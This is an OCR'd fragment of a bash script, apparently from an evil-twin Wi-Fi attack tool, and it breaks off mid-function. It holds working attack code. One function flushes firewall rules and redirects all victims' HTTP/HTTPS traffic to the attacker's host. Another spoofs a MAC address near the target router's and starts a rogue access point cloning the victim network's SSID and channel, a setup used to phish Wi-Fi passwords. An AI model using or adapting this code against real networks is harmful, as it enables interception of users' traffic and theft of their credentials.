 # Set up DHCP / WEB server
# Set up DHCP / WEB server
function routear {

        ifconfig $interfaceroutear up
        ifconfig $interfaceroutear $IP netmask 255.255.255.0

        route add -net $RANG_IP.0 netmask 255.255.255.0 gw $IP
        sysctl -w net.ipv4.ip_forward=1 &>$flux_output_device

  iptables --flush
  iptables --table nat --flush
  iptables --delete-chain
  iptables --table nat --delete-chain
  iptables -P FORWARD ACCEPT

  iptables -t nat -A PREROUTING -p tcp --dport 80 -j DNAT --to-destination $IP:80
  iptables -t nat -A PREROUTING -p tcp --dport 443 -j DNAT --to-destination $IP:443
  iptables -A INPUT -p tcp --sport 443 -j ACCEPT
  iptables -A OUTPUT -p tcp --dport 443 -j ACCEPT
  iptables -t nat -A POSTROUTING -j MASQUERADE

}

# Attack
function attack {

        interfaceroutear=$WIFI

        handshakecheck
        nomac=$(tr -dc A-F0-9 < /dev/urandom | fold -w2 |head -n100 | grep -v "${mac:13:1}" | head -c 1)

        if [ "$fakeapmode" = "hostapd" ]; then

                ifconfig $WIFI down
                sleep 0.4
                macchanger --mac=${mac::13}$nomac${mac:14:4} $WIFI &> $flux_output_device
                sleep 0.4
                ifconfig $WIFI up
                sleep 0.4
        fi


        if [ $fakeapmode = "hostapd" ]; then
                killall hostapd &> $flux_output_device
                xterm $HOLD $BOTTOMRIGHT -bg "#000000" -fg "#FFFFFF" -title "AP" -e hostapd $DUMP_PATH/hostapd.conf &
                elif [ $fakeapmode = "airbase-ng" ]; then
                killall airbase-ng &> $flux_output_device
                xterm $BOTTOMRIGHT -bg "#000000" -fg "#FFFFFF" -title "AP" -e airbase-ng -P -e $Host_SSID -c $Host_CHAN -a ${mac::13}$nomac${mac:14:4} $WIFI_MONITOR &
        fi
        sleep 5
